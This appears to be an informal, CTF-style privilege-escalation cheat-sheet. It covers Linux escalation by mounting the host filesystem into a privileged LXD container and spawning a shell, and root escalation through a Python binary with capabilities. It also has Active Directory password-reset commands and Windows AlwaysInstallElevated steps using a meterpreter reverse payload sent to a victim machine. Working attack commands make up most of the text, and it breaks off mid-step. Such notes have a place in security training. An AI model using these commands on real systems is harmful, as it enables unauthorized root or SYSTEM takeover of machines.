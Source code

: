 sudo ./build-alpine

its gives us tar file move the file to host machine and exploit

$ lxc image import ./alpine-v3.15-x86_64-20220120_2255.tar.gz --alias myimage
$ lxc init myimage arun -c security.privileged=true
$ lxc config device add arun mydevice disk source=/ path=/mnt/root recursive=true
$ lxc start arun
$ lxc exec arun /bin/sh

## privesc using Capabilities 

getcap -r / 2>/dev/null
pwd
ls -al python3
./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
id

# Active Directory

To reset the password:

    Set-ADAccountPassword sophie -Reset -NewPassword (Read-Host -AsSecureString -Prompt 'New Password') -Verbose

To must change the password at login
    
     Set-ADUser -ChangePasswordAtLogon $true -Identity sophie -Verbose


# Win-PrivEsc

What is this? AlwaysInstallElevated?

	The AlwaysInstallElevated policy feature is used to install an MSI package file with elevated (
system) privileges. This policy is enabled in the Local Group Policy editor; directs the Windows Installer engine to use elevated permissions when it installs any program on the system. This method can make a machine vulnerable posing a high-security risk because a non-administrator user can run installations with elevated privileges and access many secure locations on the computer.

steps;;

create a meterpreter reverse pyload.exe and start reverse listerner
then send paload.exe to your victim box

then .\payload.exe trigger and ckeck lister got meterpreter shell 

now run meterpreter as background then use AlwaysInstallElevated metasploit exploit then set session 1 and set lhost tun0 exploit

reg query HKLM\Software\Policies\Microsoft\Windows\Installer
reg query HKCU\Software\Policies\Microsoft\Windows\Installer

Run this both cmds for set value 1.

then run
